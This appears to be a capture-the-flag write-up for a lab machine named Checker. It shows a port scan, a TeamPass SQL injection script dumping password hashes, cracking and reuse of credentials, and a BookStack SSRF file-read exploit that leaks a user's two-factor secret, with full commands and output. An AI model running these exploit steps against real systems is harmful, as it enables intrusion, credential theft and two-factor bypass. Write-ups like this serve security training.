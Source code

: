 1, Recon
port scan
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 aa:54:07:41:98:b8:11:b0:78:45:f1:ca:8c:5a:94:2e (ECDSA)
|_  256 8f:2b:f3:22:1e:74:3b:ee:8b:40:17:6c:6c:b1:93:9c (ED25519)
80/tcp   open  http    Apache httpd
|_http-server-header: Apache
|_http-title: 403 Forbidden
8080/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: 403 Forbidden
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Page check
This is the port 80 web service
![](images/Pasted%20image%2020250310102023.png)
In this place, when I want to fuzz the valid web-content, I get the code 429 Too much request, that means there is a WAF here.

This is port 8080 web service
![[images/Screenshot 2025-04-19 at 11.06.04 PM.png]]
From this page source code, I found something interesting here
```
<link rel="shortcut icon" type="image/png" href="[http://vault.checker.htb/favicon.ico](view-source:http://vault.checker.htb/favicon.ico)"/>
</head>
```
There is another sub-domain here `vault.checker.htb`
But when we want to check what is going on in this subdomain, it would redirect to `http://checker.htb/login`
![](images/Pasted%20image%2020250420091030.png)

So let's continue to check the vulnerability of this port 8080
I want to check the service `Teampass` from the exploit-db
Then we found `TeamPass 3.0.0.21 - SQL Injection` from exploit-db, we can also run the exploit script here.
```
python3 sql_injection.py http://checker.htb:8080/
2025-04-20 09:12:47,926 - INFO - Encontrados 2 usuários no sistema
2025-04-20 09:12:48,216 - INFO - Credenciais obtidas para: admin
2025-04-20 09:12:48,506 - INFO - Credenciais obtidas para: bob

Credenciais encontradas:
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```

Use john to crack and get bob's password
```
bob:cheerleader
```

Then we can successfully get into the dashboard
![](images/Pasted%20image%2020250420091511.png)
Then we can check the items to find something interesting
![](images/Pasted%20image%2020250420091639.png)
We can get the credit `bob@checker.htb:mYSeCr3T_w1kI_P4sSw0rD`

And also, we can use this login to the web service of port 80
![](images/Pasted%20image%2020250420091744.png)
Try to ssh to connect the account reader
`reader：hiccup-publicly-genesis`
![](images/Pasted%20image%2020250420091859.png)
But we can not login directly
```
ssh reader@checker.htb
(reader@checker.htb) Password: 
(reader@checker.htb) Verification code: 
```
There will be a Verification code here

From the source code of `BookStack`, we can find the version of this service
```
 <!-- Social Cards Meta -->
    <meta property="og:title" content="BookStack">
    <meta property="og:url" content="http://checker.htb">
    
    <!-- Styles -->
    <link rel="stylesheet" href="[http://checker.htb/dist/styles.css?version=v23.10.2](view-source:http://checker.htb/dist/styles.css?version=v23.10.2)">
```
`BookStack v23.10.2`
Then we can search about this version of service, and find something vulnerable
`LFR via SSRF in BookStack: Beware of insecure-by-default libraries!`
Let's try to make the exploit script
```
$ python3 filters_chain_oracle_exploit.py --target 'http://checker.htb/ajax/page/9/save-draft' --file '/backup/home_backup/home/reader/.google_authenticator' --verb PUT --parameter html --headers '{"X-CSRF-TOKEN": "2eWRQgwyDzLfzL8amvM5z4iVprsO0GaXBQG0K2gw", "Content-Type":"application/x-www-form-urlencoded","Cookie":"bookstack_session=eyJpdiI6IjExbkJYcmlaZTJITE5IREtSSllVUGc9PSIsInZhbHVlIjoiMUZBcjZTcFFYVFZNMklPenMyb3pveHNyUFNHdytsTEVMbkcyZjh1RERqNXhjdE5zVXdSYWczZTlEck9xTXJrazB3MS9ZbUZCS0pRODVkQjR0UGcvUU9MS1AyeW8yUW9yMmNzTE92aGFRbUNFeVAzeUtjMWFZQnpWTU5mMlNraEoiLCJtYWMiOiI3N2YzMGYxMjM5OGM5YmEwZGMxZTAzMmZiMGMxNjU1YzBhZjhmNjNjYTI5N2MwYmM5NzUyOGVlYzVjZTQ3M2Y4IiwidGFnIjoiIn0%3D"}'
[*] The following URL is targeted : http://checker.htb/ajax/page/9/save-draft
[*] The following local file is leaked : /backup/home_backup/home/reader/.google_authenticator
[*] Running PUT requests
[*] Additionnal headers used : {"X-CSRF-TOKEN": "2eWRQgwyDzLfzL8amvM5z4iVprsO0GaXBQG0K2gw", "Content-Type":"application/x-www-form-urlencoded","Cookie":"bookstack_session=eyJpdiI6IjExbkJYcmlaZTJITE5IREtSSllVUGc9PSIsInZhbHVlIjoiMUZBcjZTcFFYVFZNMklPenMyb3pveHNyUFNHdytsTEVMbkcyZjh1RERqNXhjdE5zVXdSYWczZTlEck9xTXJrazB3MS9ZbUZCS0pRODVkQjR0UGcvUU9MS1AyeW8yUW9yMmNzTE92aGFRbUNFeVAzeUtjMWFZQnpWTU5mMlNraEoiLCJtYWMiOiI3N2YzMGYxMjM5OGM5YmEwZGMxZTAzMmZiMGMxNjU1YzBhZjhmNjNjYTI5N2MwYmM5NzUyOGVlYzVjZTQ3M2Y4IiwidGFnIjoiIn0%3D"}
RFZEQlJB
b'<SECRET_KEY>\n" TOTP_AUTH\n'

```
